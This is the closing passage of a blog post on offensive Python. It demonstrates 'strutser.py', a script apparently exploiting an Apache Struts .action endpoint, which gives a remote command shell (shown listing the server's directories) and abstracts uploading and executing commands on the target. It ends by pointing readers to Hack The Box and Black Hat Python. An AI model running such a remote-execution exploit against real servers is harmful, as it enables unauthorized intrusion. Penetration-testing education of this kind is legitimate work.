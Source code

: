 Let's see it in action!

```
python strutser.py  http://VULN.TARGET.COM:8080/REDACTED.action http://127.0.0.1:8510
URL: http://VULN.TARGET.COM:8080/REDACTED.action
PROXY URL: http://127.0.0.1:8510
>> ls
-------------------------------- DA REPLY --------
conf
db_connect
lib
logs
policy
webapps
work
```

Awesome! The Python script hides and abstracts away the hideous details of uploading and executing commands on the remote server and we can concentracte to advance our nefarious purposes.

## Further material

If this looks like something you would love to do, please go ahead and start hacking! I recommend [Hack The Box](https://www.hackthebox.eu) as a platform where to hone and test your skills. But there are also books. [Black Hat Python](https://www.amazon.com/Black-Hat-Python-Programming-Pentesters/dp/1593275900) inspired my to write this post and it contains more examples of Black Hat Programming demonstrated in this blog post.
